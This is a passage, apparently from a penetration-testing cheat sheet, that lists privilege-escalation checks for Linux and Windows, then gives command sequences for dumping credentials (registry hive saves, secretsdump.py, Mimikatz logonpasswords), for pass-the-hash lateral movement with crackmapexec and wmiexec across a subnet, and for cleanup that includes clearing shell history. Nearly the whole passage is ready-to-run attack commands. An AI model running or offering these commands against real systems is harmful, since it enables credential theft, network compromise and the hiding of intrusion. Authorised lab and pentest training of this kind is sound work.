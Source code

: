 7) Privilege escalation hints
- Linux:
```bash
sudo -l
find / -writable -type d 2>/dev/null | head
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
# Check cron/systemd service files, PATH hijacks, NFS no_root_squash, Docker/LXD group
```
- Windows:
```cmd
whoami /priv
icacls "C:\Program Files\SomeService\service.exe"
sc qc <ServiceName>
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\System\CurrentControlSet\Services\<ServiceName> /s
REM Look for unquoted service paths, weak service/file perms, AlwaysInstallElevated, token privileges (SeImpersonate), and scheduled tasks.
```

8) Credential dumping (Windows)
```cmd
REM Save registry hives (requires admin)
reg save HKLM\SAM C:\Windows\Temp\SAM.save
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM.save
reg save HKLM\SECURITY C:\Windows\Temp\SECURITY.save
```
Download those files to your attack box, then:
```bash
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
# Or dump remotely if you have admin creds
secretsdump.py ${DOMAIN}/${USER}:"$PASS"@${TARGET}
```

Mimikatz (often AV-detected; use only if allowed)
```text
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
```

9) Lateral movement examples
```bash
# Reuse found plaintext passwords or NTLM hashes
crackmapexec smb 10.10.10.0/24 -u 'Administrator' -H 31d6cfe0d16ae931b73c59d7e0c089c0 --continue-on-success
impacket-wmiexec ${DOMAIN}/Administrator@10.10.10.20 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
```

10) Persistence and cleanup (lab hygiene)
```cmd
REM Windows cleanup examples
del C:\Windows\Temp\SAM.save C:\Windows\Temp\SYSTEM.save C:\Windows\Temp\SECURITY.save
del C:\Windows\Temp\winpeas.txt

# Linux cleanup examples
rm -f /tmp/linpeas.sh /tmp/linpeas.out
history -c
```
